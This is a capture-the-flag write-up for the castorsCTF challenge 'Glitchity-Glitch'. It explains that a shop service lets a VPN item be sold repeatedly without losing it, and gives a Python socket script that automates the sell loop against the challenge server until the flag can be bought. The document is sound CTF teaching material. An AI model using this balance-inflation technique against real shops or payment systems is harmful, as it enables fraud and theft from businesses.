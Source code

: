# Glitchity-Glitch

Connecting to the server at the specified port gives us a text base shop, where we have a balance, a list of items we can buy, and the ability to sell any items we buy for the original price.

One of the items is a flag, however, the cost of this item (6000) is far greater than the amount of money we start with.

## Solution

We need to find a way of increasing the user balance to be greater than or equal to the cost of the flag.

If try buying and selling each item, we notice that the VPN item can be bought and sold as normal, except the amount doesn't decrease when sold.
With this in mind, we can buy 1 VPN and sell it an unlimited number of times until we reach the correct balance.

Although it is theoretically possible to do this manually, the VPN costs very little in comparison to the flag, and this would require far too much time.
The process can be automated using the ```socket``` python module.

## Script

```py
#!/usr/bin/python
import socket

def netcat(hostname, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))

    hasVPN = False
    selling = False
    working = True
    done = False
    flag = ""

    while not done:
        data = s.recv(1024)
        for item in data.decode().split("\n"):
            if "Your money: " in item and not "Here's" in item:
                print(f'{item} \r', end="")
                break
        if "Your money: 6000" in data.decode():
            working = False
        if "Choice: " in data.decode():
            if not working:
                message = "5\n"
            else:
                if hasVPN and selling:
                    message = "0\n"
                    selling = False
                elif hasVPN and not selling:
                    message = "1\n"
                    selling = True
                else:
                    message = "6\n"
                    hasVPN = True
            s.sendall(message.encode())
        if "castorsCTF" in data.decode():
            print("Flag:", data.decode())
            for item in data.decode().split("\n"):
                if "castorsCTF" in item:
                    flag = item
                    break
            done = True
    print("Connection closed.")
    s.shutdown(socket.SHUT_WR)
    s.close()
    return flag

flagFileContents = netcat("chals20.cybercastors.com", 14432)

f = open("flag.txt", "w")
f.write(flagFileContents)
f.close()
```

## Flag

```castorsCTF{$imPl3_sTUph_3h?}```

